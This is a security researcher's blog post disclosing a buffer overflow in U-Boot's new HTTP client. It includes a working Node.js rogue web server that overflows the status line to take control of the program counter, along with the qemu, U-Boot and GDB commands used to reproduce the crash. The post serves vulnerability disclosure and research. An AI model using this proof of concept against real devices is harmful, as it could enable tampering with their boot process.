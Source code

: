 ```yaml
---
layout: posts
title: "U-Boot HTTP Client"
date: 2023-02-06 00:00:00 -0600
categories: u-boot http
author: Nicholas Starke
---
```


Recently, the U-Boot Bootloader introduced HTTP support for remote booting.  More information about this feature introduction can be read at the linaro blog here: [https://www.linaro.org/blog/http-now-supported-in-u-boot/](https://www.linaro.org/blog/http-now-supported-in-u-boot/).

This blog post will look at the implementation of the U-Boot HTTP Client and discuss some of its shortcoming in its present form.

The HTTP Client is implemented here: [https://source.denx.de/u-boot/u-boot/-/blob/master/net/wget.c](https://source.denx.de/u-boot/u-boot/-/blob/master/net/wget.c)

As it currently is implemented, there is a buffer overflow in the HTTP Client implementation.

I was able to take control of the Instruction Pointer (`$PC`) using a relatively simple proof of concept rogue web server:

## Proof of Concept

```javascript
// Forgive me for writing this poorly and in NodeJS...
const net = require('net');

const response = [
    'HTTP/1.0 200 ' + 'A'.repeat(1024 * 1024 * 86),
    '\r\n'
].join('\r\n');

const socket = net.createServer(function (c) {
    c.write(response);
    c.end()
});

socket.listen(80, function() {
    console.log('server running');
});
```

Screenshot:

![](/images/02062023/bof.png)

## Impact

This could potentially be used to remotely compromise a U-Boot based device that relies on U-Boot's HTTP Boot. To the best of my knowledge, no such hardware device currently exists. All testing in this blog post was performed in a virtualized environment with `qemu-system`.

I am not sure what the goal of an exploit would be, but I think the most likely objective would be to try to load a different boot image than the one the administrator is expecting; but even this is a stretch.  

If you can control the webserver the wget request is issued to, you can control the image that comes back to the host for it to boot.  If hardware root of trust features were enabled, this could be used to bypass the hardware root of trust.  

If you can control any part of the network, since the traffic is over HTTP you could simply Machine in the Middle the network traffic and send your own boot image as well. 

## Analysis

If you want to consider this a vulnerability, writing an exploit that will work **at all**, let alone across device models, is going to be difficult.  In a virtualized environment, a successful exploit is going to depend not only on the amount of system memory, but more importantly, the `$loadaddr` parameter value passed into the `wget` command within the U-Boot CLI.  Since that can vary at runtime, trying to build an exploit is going to be difficult. 

I don't consider this a vulnerability because of its recent implementation and the slow adoption of new U-Boot versions. No one uses this feature yet.

## A Note About Disclosure

The HTTP client is a very recently implemented feature and has not to my knowledge been included in a major U-boot release yet. Also, the U-Boot maintainers do not have any form of private security contact method, so I'm just full disclosing this. If this rubs anyone the wrong way, consider reaching out to the U-Boot project and asking them to set up a `security@` email inbox.

## Methodology

I followed the instructions I wrote up [here](/qemu/u-boot/bootloader/2021/01/20/qemu-system-execute-raw-binary-u-boot-image.html) and then attached a GDB-multiarch instance to the VM process by adding `-s -S` to the qemu-system command.  So in full, my qemu-system command looked like this:

```
qemu-system-arm -M vexpress-a9 -device loader,file=u-boot.bin,addr=0x60800000,cpu-num=0,force-raw=on -s -S -nographic
```

The U-Boot CLI Commands I used were:

```
setenv autoload 0;dhcp
wget $loadaddr 172.19.222.219:/
```

Where `172.19.222.219` is the IP address of the nodejs POC server running on port 80.

The GDB commands I used on top of pwndbg were:

```
target remote :1234
file u-boot
b *0x41414141
```

The `file u-boot` command loads the `u-boot` file from the current u-boot directory:

```
$ file u-boot
u-boot: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, with debug_info, not stripped
```

This is the ELF symbol file that u-boot generates at compile time.  